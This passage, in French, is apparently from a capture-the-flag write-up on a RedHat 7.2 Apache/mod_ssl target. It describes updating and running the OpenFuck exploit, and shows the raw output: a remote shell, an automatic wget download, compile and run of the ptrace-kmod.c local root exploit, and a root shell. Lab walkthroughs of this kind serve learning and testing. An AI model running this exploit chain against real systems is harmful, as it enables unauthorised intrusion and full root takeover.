 Et voilà !   

La version d'Apache / OpenSSL / mod\_ssl est aussi un bon candidat pour certains exploits bien connus (*OpenFuck*, *openssl-too-open*, et les [exploits ASN](http://devloop.users.sourceforge.net/index.php?article42/mass-apache-pwnage-from-romania)).  

La librairie openssl étant ce que l'on connaît, les exploits de l'époque ne se compilent pas avec la version actuelle de la librairie.  

On trouve tout de même [un article de blog](https://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/) expliquant comment mettre à jour le code de *OpenFuck*.  

Une fois cette étape passée, l'exploit a deux offsets correspondant à la distribution du challenge :  

```plain
        0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
        0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
```

L'exploitation fonctionne sans problèmes :  

```plain
$ ./OpenFuck 0x6b 192.168.1.104

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80fc080
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304- 
--14:22:23--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--14:22:23--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   3.74 MB/s

14:22:24 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 15397
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
